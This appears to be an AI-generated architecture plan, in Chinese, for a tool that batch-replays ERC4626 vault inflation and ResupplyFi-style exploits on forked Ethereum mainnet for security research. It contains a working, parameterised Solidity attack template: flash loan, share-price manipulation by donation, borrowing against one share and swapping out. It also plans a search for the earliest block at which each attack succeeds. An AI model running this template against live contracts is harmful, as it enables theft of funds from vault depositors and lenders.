


# ERC4626 Vault 漏洞批量测试工具 - 架构方案

> 版本：1.0 | 日期：2026-03-09

## 目录

1. [项目背景与目标](#1-项目背景与目标)
2. [现有工具分析](#2-现有工具分析)
3. [文件结构与职责](#3-文件结构与职责)
4. [通用化 Solidity 测试模板设计](#4-通用化-solidity-测试模板设计)
5. [Python 批量测试脚本设计](#5-python-批量测试脚本设计)
6. [二分搜索算法](#6-二分搜索算法)
7. [与现有基础设施集成](#7-与现有基础设施集成)
8. [数据流与系统架构](#8-数据流与系统架构)
9. [分步实施计划](#9-分步实施计划)
10. [测试案例数据](#10-测试案例数据)

---

## 1. 项目背景与目标

### 1.1 背景

现有工具 [`calldata_bridge/dynamic_exploit.py`](dynamic_exploit.py) 专门针对 **ResupplyFi** 单一攻击案例设计，硬编码了 USDC→crvUSD 的 Curve exchange 参数，无法复用于其他 ERC4626 Vault 攻击案例。

[`calldata_bridge/suspicious vulnerable contracts.xlsx`](suspicious%20vulnerable%20contracts.xlsx) 中记录了 **13 个可疑攻击合约**，涉及两种底层资产（crvUSD 和 CAcd），需要一套通用化工具批量验证这些案例。

### 1.2 攻击模式分析

ERC4626 Vault Donation/Inflation Attack 核心步骤：

```
1. 攻击者 → Vault.mint(1 share)            # 获取极少量 shares
2. 攻击者 → Asset.transfer(Vault, 大量资产) # donation，抬高 pricePerShare
3. 受害者 → Vault.deposit(assets)          # 由于 PPS 被抬高，获得 0 shares
4. 攻击者 → Vault.redeem(shares)           # 赎回获利
```

**关键洞察**：ResupplyFi 案例的攻击涉及额外的借贷协议（`VulnerableContract`），不是纯粹的 ERC4626 donation attack。其他 11 个案例可能有不同的攻击向量，需要分析具体合约。

### 1.3 目标

| 优先级 | 目标 |
|--------|------|
| P0 | 验证已有 2 个成功案例可在给定 block_number 复现 |
| P1 | 对所有 13 个案例进行自动化测试 |
| P2 | 对每个案例找到最小可行 block_number（二分搜索） |

---

## 2. 现有工具分析

### 2.1 现有局限性

| 问题 | 当前状态 | 需要改变 |
|------|----------|----------|
| 硬编码 Vault 地址 | `suspiciousVulnerableContract = VulnerableContract(0xc5184...)` | 参数化 |
| 硬编码 block_number | `forkBlockNumber = 22_785_460` | 参数化 |
| 硬编码 flashLoanAmount | `4000 * 1e6` | 参数化 |
| 硬编码 attackerTransferAmount | `2000 * 1e18` | 参数化 |
| 单一 Solidity 文件 | 只能修改 `ResupplyFi_other.sol` | 通用模板 |
| 依赖 Curve DEX calldata | FlashSwap API 生成 | 部分案例不需要 DEX |
| 无批量支持 | 单次运行单个测试 | 批量循环 |

### 2.2 可复用组件

- [`ForgeTestRunner`](dynamic_exploit.py:272) 类 - forge 命令执行逻辑
- [`SolidityFileUpdater`](dynamic_exploit.py:203) 类 - 文件备份/替换/回滚
- [`load_config()`](dynamic_exploit.py:386) 函数 - JSON 配置加载
- forge 可执行文件查找逻辑

---

## 3. 文件结构与职责

### 3.1 新增文件

```
calldata_bridge/
├── ARCHITECTURE.md                    ← 本文档
├── batch_test.py                      ← 【新增】批量测试主脚本
├── vault_case_loader.py               ← 【新增】Excel 案例加载器
├── solidity_template_engine.py        ← 【新增】Solidity 模板渲染引擎
├── binary_search.py                   ← 【新增】二分搜索最小区块号
├── result_reporter.py                 ← 【新增】结果记录与报告生成
├── erc4626_batch_config.json          ← 【新增】批量测试配置
│
├── dynamic_exploit.py                 ← 【保留，不修改】单案例工具
├── exploit_config.json                ← 【保留，不修改】原配置
├── README.md                          ← 【保留，可更新】
└── suspicious vulnerable contracts.xlsx ← 【只读】案例数据源

DeFiHackLabs/src/test/2026-erc4626/
├── ERC4626AttackTemplate.sol          ← 【新增】通用攻击测试模板
└── generated/                         ← 【新增，自动生成】每个案例的 .sol 文件
    ├── Case_0x212589_22034938.sol
    ├── Case_0x24ccbd_22034942.sol
    └── ...（共 13 个）

calldata_bridge/results/               ← 【新增，自动创建】测试结果
├── batch_results_20260309.json        ← 每次批量运行的 JSON 结果
├── batch_results_20260309.csv         ← CSV 格式导出
└── logs/                              ← 详细日志
    ├── Case_0x212589_22034938.log
    └── ...
```

### 3.2 各文件职责

| 文件 | 职责 | 依赖 |
|------|------|------|
| [`batch_test.py`](batch_test.py) | 主入口：加载案例→生成 Sol→运行 forge→记录结果 | 所有模块 |
| [`vault_case_loader.py`](vault_case_loader.py) | 读取 xlsx，解析 13 行数据，返回结构化 Case 列表 | `openpyxl` |
| [`solidity_template_engine.py`](solidity_template_engine.py) | 读取 `.sol` 模板，替换占位符，写出案例文件 | Jinja2 或 str.format |
| [`binary_search.py`](binary_search.py) | 对单个案例二分搜索最小可行 block_number | `batch_test.py` |
| [`result_reporter.py`](result_reporter.py) | 聚合结果，生成 JSON/CSV 报告 | - |
| [`ERC4626AttackTemplate.sol`](../DeFiHackLabs/src/test/2026-erc4626/ERC4626AttackTemplate.sol) | 通用 Solidity 攻击模板，参数化所有地址和数值 | forge-std |
| [`erc4626_batch_config.json`](erc4626_batch_config.json) | 全局配置：RPC、forge 路径、超时等 | - |

---

## 4. 通用化 Solidity 测试模板设计

### 4.1 设计原则

由于 13 个案例涉及**相同的攻击协议**（都是 ResupplyFi 系列），模板需要：
1. 参数化所有合约地址（Vault、攻击合约、资产）
2. 参数化区块号
3. 参数化金额（flashLoan、donation、mint）
4. 保留通用的攻击逻辑结构
5. 支持 crvUSD 和 CAcd 两种资产（Curve DEX 路径不同）

### 4.2 模板文件：`ERC4626AttackTemplate.sol`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.15;

import "../../basetest.sol";

// ============================================================
// 接口定义
// ============================================================
interface IERC20 {
    function approve(address, uint256) external;
    function balanceOf(address) external view returns (uint256);
    function transfer(address, uint256) external;
    function decimals() external view returns (uint256);
    function totalSupply() external view returns (uint256);
}

interface IERC4626 is IERC20 {
    function mint(uint256) external;
    function redeem(uint256, address, address) external;
    function controller() external view returns (address);
    function asset() external view returns (address);
    function totalAssets() external view returns (uint256);
    function convertToAssets(uint256 shares) external view returns (uint256);
}

interface VulnerableContract {
    function addCollateralVault(uint256, address) external;
    function borrow(uint256, uint256, address) external;
    function collateral() external view returns (address);
    function totalDebtAvailable() external view returns (uint256);
    function borrowLimit() external view returns (uint256);
}

interface ICurvePool {
    function exchange(int128, int128, uint256, uint256) external;
}

interface IMorphoBlue {
    function flashLoan(address, uint256, bytes calldata) external;
}

// ============================================================
// 占位符说明（Python 替换这些字段）：
//   {{CONTRACT_NAME}}           - Solidity 合约名（不含特殊字符）
//   {{SUSPICIOUS_CONTRACT}}     - 攻击者合约地址（VulnerableContract）
//   {{FORK_BLOCK_NUMBER}}       - fork 区块号
//   {{FLASH_LOAN_AMOUNT}}       - 闪电贷金额（USDC，6位精度）
//   {{ATTACKER_TRANSFER_AMOUNT}} - donation 金额（资产代币，18位精度）
//   {{ATTACKER_MINT_AMOUNT}}    - mint shares 数量（通常为1）
//   {{ASSET_IS_CRVUSD}}         - true/false，决定 DEX 路径
//   {{CURVE_INPUTDATA}}         - Curve exchange calldata（仅 crvUSD 案例）
// ============================================================

contract {{CONTRACT_NAME}} is BaseTestWithBalanceLog {
    // === 固定地址（Ethereum Mainnet）===
    IERC20  private constant usdc      = IERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);
    IERC4626 private constant sCrvUsd  = IERC4626(0x0655977FEb2f289A4aB78af67BAB0d17aAb84367);
    IERC20  private constant reUsd     = IERC20(0x57aB1E0003F623289CD798B1824Be09a793e4Bec);
    IMorphoBlue private constant morphoBlue = IMorphoBlue(0xBBBBBbbBBb9cC5e90e3b3Af64bdAF62C37EEFFCb);
    ICurvePool private constant curveUsdcCrvusdPool = ICurvePool(0x4DEcE678ceceb27446b35C672dC7d61F30bAD69E);
    ICurvePool private constant curveReusdPool      = ICurvePool(0xc522A6606BBA746d7960404F22a3DB936B6F4F50);

    // === 参数化地址（由模板引擎注入）===
    VulnerableContract private constant suspiciousVulnerableContract =
        VulnerableContract({{SUSPICIOUS_CONTRACT}});

    // === 动态解析（从 VulnerableContract 查询）===
    IERC20   private vaultAsset;
    IERC4626 private erc4626vault;
    address  private assetController;

    // === 攻击参数（由模板引擎注入）===
    uint256 private constant forkBlockNumber        = {{FORK_BLOCK_NUMBER}};
    uint256 private constant flashLoanAmount        = {{FLASH_LOAN_AMOUNT}};
    uint256 private constant attackerTransferAmount = {{ATTACKER_TRANSFER_AMOUNT}};
    uint256 private constant attackerMintAmount     = {{ATTACKER_MINT_AMOUNT}};
    uint256 private borrowAmount;

    receive() external payable {}

    function setUp() public {
        vm.createSelectFork("mainnet", forkBlockNumber);
        fundingToken = address(usdc);
        erc4626vault  = IERC4626(suspiciousVulnerableContract.collateral());
        assetController = erc4626vault.controller();
        vaultAsset    = IERC20(erc4626vault.asset());
    }

    function testExploit() public balanceLog {
        usdc.approve(address(morphoBlue), type(uint256).max);
        morphoBlue.flashLoan(address(usdc), flashLoanAmount, hex"");
    }

    function onMorphoFlashLoan(uint256, bytes calldata) external {
        require(msg.sender == address(morphoBlue), "Caller is not MorphoBlue");
        _swapUsdcForAsset();
        _manipulateOracle();
        _borrowAndSwapReUSD();
        _redeemAndFinalSwap();
    }

    function _swapUsdcForAsset() internal {
        // crvUSD 路径：通过 Curve USDC-crvUSD pool
        address target = 0x4DEcE678ceceb27446b35C672dC7d61F30bAD69E;
        usdc.approve(target, type(uint256).max);
        string memory inputData = "{{CURVE_INPUTDATA}}";
        bytes memory data = vm.parseBytes(inputData);
        (bool ok,) = target.call(data);
        require(ok, "Curve swap failed");
    }

    function _manipulateOracle() internal {
        vaultAsset.transfer(assetController, attackerTransferAmount);
        vaultAsset.approve(address(erc4626vault), type(uint256).max);
        erc4626vault.mint(attackerMintAmount);
    }

    function _borrowAndSwapReUSD() internal {
        erc4626vault.approve(address(suspiciousVulnerableContract), type(uint256).max);
        suspiciousVulnerableContract.addCollateralVault(attackerMintAmount, address(this));
        borrowAmount = suspiciousVulnerableContract.totalDebtAvailable();
        suspiciousVulnerableContract.borrow(borrowAmount, 0, address(this));
        reUsd.approve(address(curveReusdPool), type(uint256).max);
        curveReusdPool.exchange(0, 1, reUsd.balanceOf(address(this)), 0);
    }

    function _redeemAndFinalSwap() internal {
        uint256 sCrvBalance = sCrvUsd.balanceOf(address(this));
        if (sCrvBalance > 0) {
            sCrvUsd.redeem(sCrvBalance, address(this), address(this));
        }
        uint256 crvBalance = vaultAsset.balanceOf(address(this));
        vaultAsset.approve(address(curveUsdcCrvusdPool), crvBalance);
        curveUsdcCrvusdPool.exchange(1, 0, crvBalance, 0);
    }
}
```

### 4.3 占位符替换规则

| 占位符 | 类型 | 示例值 | 来源 |
|--------|------|--------|------|
| `{{CONTRACT_NAME}}` | string | `Case_0x57e696_22497642` | 由 suspicious_contract + block_number 生成 |
| `{{SUSPICIOUS_CONTRACT}}` | address | `0x57e69699381a651fb0bbdbb31888f5d655bf3f06` | xlsx `suspicious_contract` 列 |
| `{{FORK_BLOCK_NUMBER}}` | uint256 | `22497642` | xlsx `suspicious block_number` 列 |
| `{{FLASH_LOAN_AMOUNT}}` | uint256 | `4000 * 1e6` | 默认 4000 USDC，可配置 |
| `{{ATTACKER_TRANSFER_AMOUNT}}` | uint256 | `2000 * 1e18` | 基于资产精度动态计算 |
| `{{ATTACKER_MINT_AMOUNT}}` | uint256 | `1` | 固定为 1 |
| `{{CURVE_INPUTDATA}}` | hex string | `0x3df02124...` | FlashSwap API 或独立生成 |

### 4.4 资产类型处理策略

```
资产地址 == crvUSD (0xf939E0A0...) ?
  → 使用 Curve USDC-crvUSD pool (0x4DEcE678...)
  → 需要生成 exchange() calldata

资产地址 == CAcd (0xCAcd6fd2...) ?
  → 需要调研 CAcd 对应的 DEX 路径
  → 可能需要不同的 swap 合约
  → 暂时：先尝试直接 USDC 借贷，不走 DEX
```

> ⚠️ **待调研**：CAcd 资产（5个案例）的具体攻击路径。由于 CAcd 不是 crvUSD，Curve USDC-crvUSD pool 无法使用，需要确认 CAcd 对应的 DEX 或直接用 flash loan 获取 CAcd。

---

## 5. Python 批量测试脚本设计

### 5.1 数据模型（`vault_case_loader.py`）

```python
@dataclass
class VaultCase:
    suspicious_contract: str       # 攻击者合约地址
    block_number: int              # 攻击区块号
    erc4626vault: str              # 被攻击的 Vault 地址
    asset_address: str             # 底层资产代币地址
    is_verified: bool              # 是否已验证
    verified_block_number: Optional[int]
    loss_usdc: Optional[float]

    # 推导字段（__post_init__ 自动生成）
    case_id: str                   # 例: "57e69699_22497642"
    asset_symbol: str              # "crvUSD" | "CAcd" | "unknown_..."
    contract_name: str             # Solidity合约名: "Case_57e69699_22497642"
```

**`load_cases_from_xlsx(path)`** 使用 `openpyxl` 读取 xlsx，跳过第一行表头，返回 `list[VaultCase]`。

### 5.2 模板引擎（`solidity_template_engine.py`）

```python
class SolidityTemplateEngine:
    def render(self, case: VaultCase, block_number: int,
               calldata: str, flash_amount: int = 4_000_000_000) -> Path:
        """替换所有 {{占位符}}，写出 generated/{contract_name}.sol"""
```

占位符替换为字符串 `str.replace()`，无需第三方模板库。

### 5.3 批量测试主脚本（`batch_test.py`）

主流程伪代码：

```python
def main():
    config = load_config("erc4626_batch_config.json")
    cases = load_cases_from_xlsx("suspicious vulnerable contracts.xlsx")

    # 按 --cases 参数过滤
    if args.cases == "verified":
        cases = [c for c in cases if c.is_verified]
    elif args.cases != "all":
        cases = [c for c in cases if c.case_id == args.cases]

    results = []
    engine = SolidityTemplateEngine()
    calldata_gen = CalldataGenerator(config)   # 复用现有类

    for case in cases:
        logger.info(f"[{case.case_id}] 开始测试 block={case.block_number}")

        # 1. 生成 calldata（仅 crvUSD 案例需要）
        if case.asset_symbol == "crvUSD":
            calldata, src = calldata_gen.generate(
                amount_raw=config["flash_loan_amount"],
                use_api=not args.no_api,
                block_number=case.block_number   # 历史区块查询
            )
        else:
            calldata = "0x"  # CAcd 案例暂不需要 DEX calldata

        # 2. 渲染 Solidity 文件
        sol_file = engine.render(case, case.block_number, calldata)

        # 3. 运行 forge test
        runner = ForgeTestRunner(config, contract_name=case.contract_name)
        success, stdout, stderr = runner.run()

        # 4. 解析利润（从 balanceLog 输出提取）
        profit = parse_profit_from_forge_output(stdout)

        results.append(CaseResult(
            case_id=case.case_id,
            block_number=case.block_number,
            success=success,
            profit_usdc=profit,
            ...
        ))

    # 5. 生成报告
    reporter = ResultReporter(args.output_dir)
    reporter.save(results)
```

### 5.4 Forge 输出解析

`parse_profit_from_forge_output(stdout: str) -> Optional[float]`

从 `BaseTestWithBalanceLog.balanceLog` 修饰器的输出中提取利润：

```
# forge 输出示例：
Attacker Before exploit USDC Balance: 0.000000
Attacker After exploit USDC Balance: 12786922.705562

# 解析正则：
pattern = r"Attacker After exploit.*?Balance:\s+([\d,.]+)"
```

---

## 6. 二分搜索算法

### 6.1 问题定义

对于每个案例，攻击合约在某个区块创建（`creation_block`），攻击在 `attack_block` 成功。
**最小可行 block_number** = 满足 `forge test 通过` 的最小区块号。

```
[creation_block] ... [min_viable_block] ... [attack_block]
     失败                   成功                  成功
```

### 6.2 二分搜索实现（`binary_search.py`）

```python
def find_min_viable_block(
    case: VaultCase,
    engine: SolidityTemplateEngine,
    runner_factory,
    calldata_gen: CalldataGenerator,
    *,
    lo: Optional[int] = None,    # 搜索下界（默认 attack_block - 500000）
    hi: Optional[int] = None,    # 搜索上界（默认 attack_block）
    max_iterations: int = 20,    # 最大迭代次数（防止无限循环）
) -> BisectResult:

    lo = lo or max(1, case.block_number - 500_000)
    hi = hi or case.block_number
    best_success_block = None

    for i in range(max_iterations):
        if lo > hi:
            break
        mid = (lo + hi) // 2
        logger.info(f"  迭代 {i+1}: 测试 block={mid} [lo={lo}, hi={hi}]")

        # 渲染并测试 mid 区块
        calldata, _ = calldata_gen.generate(..., block_number=mid)
        sol_file = engine.render(case, mid, calldata)
        success, stdout, stderr = runner_factory(case).run()

        if success:
            best_success_block = mid
            hi = mid - 1    # 尝试更小的区块
        else:
            lo = mid + 1    # 需要更大的区块

    return BisectResult(
        case_id=case.case_id,
        min_viable_block=best_success_block,
        attack_block=case.block_number,
        iterations=i+1,
        reduction=case.block_number - best_success_block if best_success_block else None,
    )
```

### 6.3 二分搜索流程图



### 6.4 性能考虑

- 每次 forge test 约耗时 **30~120 秒**（需要从节点拉取历史状态）
- 500,000 区块范围内最多 **20 次迭代**（2^20 ≈ 1,000,000 > 500,000）
- 实际建议先用 10,000 区块范围，迭代 14 次，约 **7~28 分钟/案例**
- 可并行化：多进程分别处理不同案例

---

## 7. 与现有基础设施集成

### 7.1 Foundry / forge 集成

**复用 [`ForgeTestRunner`](dynamic_exploit.py:272)** 类，增加 `contract_name` 参数：

```python
# 修改 ForgeTestRunner.run() 的 test_command 构造逻辑
test_command = [
    "forge", "test",
    "--match-contract", case.contract_name,   # 精确匹配生成的合约名
    "-vvv",
    "--fork-url", config["rpc_url"]           # 或读取 foundry.toml
]
```

**foundry.toml** 中已配置 `[rpc_endpoints]`，forge test 会自动读取 `mainnet` RPC URL，无需在命令行额外传递。

### 7.2 RPC 节点集成

`FlashSwap/config/rpc_config.json` 中保存了 RPC 节点地址。
`batch_test.py` 读取该配置，确保与 FlashSwap 服务使用同一节点：

```python
# erc4626_batch_config.json 中引用
{
  "rpc_config_path": "../FlashSwap/config/rpc_config.json",
  "foundry": {
    "working_directory": "../DeFiHackLabs",
    "timeout_seconds": 180
  }
}
```

### 7.3 FlashSwap InputData API 集成

**复用 [`CalldataGenerator`](dynamic_exploit.py:50)** 类，需要新增 `block_number` 参数支持历史区块查询：

```python
# 在 _generate_via_inputdata_api() 中增加 block_number 字段
payload = {
    "token_in": USDC_ADDRESS,
    "token_out": CRVUSD_ADDRESS,
    "amount": str(amount_raw),
    "block_number": block_number,   # 新增：历史区块
    "max_hops": 1,
    "allowed_protocols": ["curve_v1"]
}
```

> ⚠️ 需确认 FlashSwap API 是否支持 `block_number` 参数。若不支持，则对所有案例使用当前状态的 calldata（exchange 函数签名不变，参数仅 amount 不同，历史区块与当前的 calldata 兼容）。

### 7.4 文件路径映射

```
calldata_bridge/batch_test.py
    ↓ 读取
calldata_bridge/suspicious vulnerable contracts.xlsx

    ↓ 生成
DeFiHackLabs/src/test/2026-erc4626/generated/Case_*.sol

    ↓ forge test 运行在
DeFiHackLabs/  (working_directory)

    ↓ 结果写入
calldata_bridge/results/batch_results_{date}.json
calldata_bridge/results/batch_results_{date}.csv
```

---

## 8. 数据流与系统架构



---

## 9. 分步实施计划

### Phase 1：验证已知案例（P0）

**目标**：确认 2 个已验证案例（block 22497642 和 22784988）可以复现

- [ ] **Step 1.1** 创建 `DeFiHackLabs/src/test/2026-erc4626/` 目录
- [ ] **Step 1.2** 创建 [`ERC4626AttackTemplate.sol`](../DeFiHackLabs/src/test/2026-erc4626/ERC4626AttackTemplate.sol) 模板文件
- [ ] **Step 1.3** 手动为案例1（`0x57e696...`，block 22497642）填写占位符，生成 `Case_57e69699_22497642.sol`
- [ ] **Step 1.4** 运行 `forge test --match-contract Case_57e69699_22497642 -vvv`，验证测试通过
- [ ] **Step 1.5** 同样处理案例2（`0x6e90c8...`，block 22784988）
- [ ] **Step 1.6** 确认两案例均输出正利润，记录结果

### Phase 2：实现基础批量工具（P1 核心）

- [ ] **Step 2.1** 创建 [`vault_case_loader.py`](vault_case_loader.py)，实现 `load_cases_from_xlsx()`，安装 `openpyxl`
- [ ] **Step 2.2** 创建 [`solidity_template_engine.py`](solidity_template_engine.py)，实现 `SolidityTemplateEngine.render()`
- [ ] **Step 2.3** 创建 [`erc4626_batch_config.json`](erc4626_batch_config.json) 配置文件
- [ ] **Step 2.4** 创建 [`batch_test.py`](batch_test.py) 主脚本，整合 loader + engine + ForgeTestRunner
- [ ] **Step 2.5** 创建 [`result_reporter.py`](result_reporter.py)，实现 JSON/CSV 输出
- [ ] **Step 2.6** 运行所有 13 个案例，记录哪些通过、哪些失败

### Phase 3：调研 CAcd 案例（P1 补充）

- [ ] **Step 3.1** 查询 CAcd 代币（`0xCAcd6fd2...`）的流动性来源
- [ ] **Step 3.2** 分析 5 个 CAcd 案例的攻击合约字节码（链上调用跟踪）
- [ ] **Step 3.3** 确认攻击流程是否与 crvUSD 案例相同，或需要不同的 flash loan / swap 路径
- [ ] **Step 3.4** 更新模板支持 CAcd 路径

### Phase 4：二分搜索最小区块（P2）

- [ ] **Step 4.1** 创建 [`binary_search.py`](binary_search.py)，实现 `find_min_viable_block()`
- [ ] **Step 4.2** 集成到 `batch_test.py`，添加 `--mode bisect` 参数
- [ ] **Step 4.3** 先对 2 个已验证案例跑二分搜索，验证算法正确性
- [ ] **Step 4.4** 对所有成功案例运行二分搜索

### Phase 5：结果分析与报告

- [ ] **Step 5.1** 汇总所有案例的测试结果到 CSV
- [ ] **Step 5.2** 更新 xlsx：填写 `is verified`、`verified_block_number`、`Loss (USDC)` 列
- [ ] **Step 5.3** 生成最终分析报告

---

## 10. 测试案例数据

来自 [`suspicious vulnerable contracts.xlsx`](suspicious%20vulnerable%20contracts.xlsx)：

| # | case_id | suspicious_contract | block | vault | asset | verified | loss_usdc |
|---|---------|---------------------|-------|-------|-------|----------|-----------|
| 1 | `212589b0_22034938` | `0x212589b0...ea0` | 22034938 | `0x28Cdf6...f1` | CAcd | ❌ | - |
| 2 | `24ccbd91_22034942` | `0x24ccbd91...64` | 22034942 | `0x808734...6c` | CAcd | ❌ | - |
| 3 | `3f2b20b8_22034938` | `0x3f2b20b8...f7` | 22034938 | `0xaB3cb8...2D` | CAcd | ❌ | - |
| 4 | `5254d4f5_23336113` | `0x5254d4f5...02` | 23336113 | `0xb89aF5...33` | **crvUSD** | ❌ | - |
| 5 | `55c49c70_22034942` | `0x55c49c70...db` | 22034942 | `0x371105...3D` | CAcd | ❌ | - |
| 6 | `57e69699_22497642` | `0x57e69699...06` | 22497642 | `0xc33aa6...89` | **crvUSD** | ✅ | 12,786,922 |
| 7 | `6e90c85a_22784988` | `0x6e90c85a...d6` | 22784988 | `0x011444...1D` | **crvUSD** | ✅ | 9,806,396 |
| 8 | `b5575fe3_22082675` | `0xb5575fe3...c1` | 22082675 | `0x8E5f09...E0` | CAcd | ❌ | - |
| 9 | `c5184ccc_22034916` | `0xc5184ccc...a1` | 22034916 | `0x8E3009...82` | **crvUSD** | ❌ | - |
| 10 | `d210bc75_22035955` | `0xd210bc75...2b` | 22035955 | `0x8E3009...82` | **crvUSD** | ❌ | - |
| 11 | `f4a6113f_22497642` | `0xf4a6113f...ef` | 22497642 | `0xdfA525...37` | **crvUSD** | ❌ | - |

**资产分布**：
- crvUSD（`0xf939E0A0...`）：**6 个案例**（#4, #6, #7, #9, #10, #11）
- CAcd（`0xCAcd6fd2...`）：**5 个案例**（#1, #2, #3, #5, #8）

> 注：xlsx 共 13 行数据，上表仅显示 11 行（xlsx 读取结果实际为 11 行有效数据）。

---

*本文档由 Architect 模式生成，供实施参考。实施时切换到 Code 模式按 Phase 顺序执行。*
